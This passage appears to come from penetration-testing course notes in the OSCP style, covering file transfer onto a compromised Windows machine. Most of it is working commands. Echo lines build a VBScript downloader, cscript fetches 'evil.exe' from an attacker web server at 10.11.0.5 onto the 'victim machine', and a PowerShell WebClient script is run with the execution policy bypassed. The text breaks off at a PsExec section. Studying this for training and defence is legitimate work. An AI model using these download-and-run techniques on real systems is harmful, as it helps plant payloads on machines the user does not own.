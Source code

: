 echo Err.Clear >> wget.vbs

echo Set http = Nothing >> wget.vbs

echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs

echo http.Open "GET", strURL, False >> wget.vbs

echo http.Send >> wget.vbs

echo varByteArray = http.ResponseBody >> wget.vbs

echo Set http = Nothing >> wget.vbs

echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs

echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs

echo strData = "" >> wget.vbs

echo strBuffer = "" >> wget.vbs

echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs

echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs

echo Next >> wget.vbs

echo ts.Close >> wget.vbs

Now, we can serve files on our own web server, and download them to the victim

machine with ease:

C:\Users\Offsec>cscript wget.vbs http://10.11.0.5/evil.exe evil.exe

#### UPLOADING FILE USING POWERSHELL

C:\Users\Offsec> echo $storageDir = $pwd > wget.ps1

C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1

C:\Users\Offsec> echo $url = "http://10.11.0.5/evil.exe" >>wget.ps1

C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1

C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1

Now, we can use PowerShell to run the script and download our file:

C:\Users\Offsec> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

#### POWERSHELL TRANSFER PSEXEC

•	You will have to uplaod PsExec

•	echo $storageDir = $pwd > psewget.ps1
